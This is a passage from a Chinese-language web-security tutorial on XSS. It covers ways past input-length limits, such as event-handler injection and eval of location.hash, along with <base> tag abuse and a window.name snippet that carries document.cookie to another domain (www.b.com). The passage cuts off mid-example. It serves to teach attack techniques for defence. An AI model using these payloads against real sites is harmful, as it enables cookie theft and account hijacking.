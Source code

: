 1. 第一种办法是将 `JavaScript` 代码绑定到一个事件中去，比如：

    ```
    $var 赋值为 "onclick=alert(1)//
    ```

2. 但是利用 `事件` 能够缩短的字节数是有限的。最好的办法是将 XSS Payload 写到别处。

    最常用的一个“隐藏代码”的地方就是 `location.hash`。而且根据 HTTP 协议，这个内容不会再网络请求中发送，所以 WEB 服务器也不会记录我们隐藏的内容。

    因为 `location.hash` 的第一个字符是 `#`，所以必须去除第一个字符才行，所以可以构造：

    ```
    $var 赋值为 "onclick="eval(location.hash.substr(1))
    ```

    同时构造一个 HTML `url` 为：

    ```
    http://www.a.com/index.html#alert(1)
    ```
    
3. 再某些环境下，可以利用注释符绕过长度限制。

    比如我们能控制两个文本框，第二个文本框允许写入更多的字节。此时可以利用 HTML 的注释符号，把两个文本框之间的代码全部注释掉，从而 “打通” 两个 `<input>` 标签。

### `<base>` 标签

这个标签的作用是定义页面上使用 “相对路径” 标签的 `hosting` 地址。比如：

```html
<body>
    <base href="http://www.google.com/" />
    <img src="/int1/en_ALL/images/srpr/logolw.png" />
</body>
```

上面这段代码将会使得 `<img>`  标签中的图片从 `http://www.google.com/int1/en_ALL/images/srpr/logolw.png` 取得。

可见 `<base>` 标签是个极其危险的标签。所以在设计 XSS 安全方案时，一定要过滤掉这个非常危险的标签。

### `window.name` 的使用

`window.name` 对象是一个神奇的东西。如果对当前窗口的 `window.name` 对象赋值，没有特殊字符的限制。因为 window 对象是浏览器的窗体，而非 document 对象，很多时候不受同源策略的限制。攻击者利用这个对象，可以实现跨页面传递数据。

比如 `www.a.com/index.html` 的代码如下：

```html
<body>
    <script>
        window.name = document.cookie;
        window.location = "http://www.b.com/index.html";
    </script>
</body>
```

这段代码将把在域 `www.a.com` 中的 `cookie` 携带到 `www.b.com` 这个域中。在后者中可以访问这个内容：
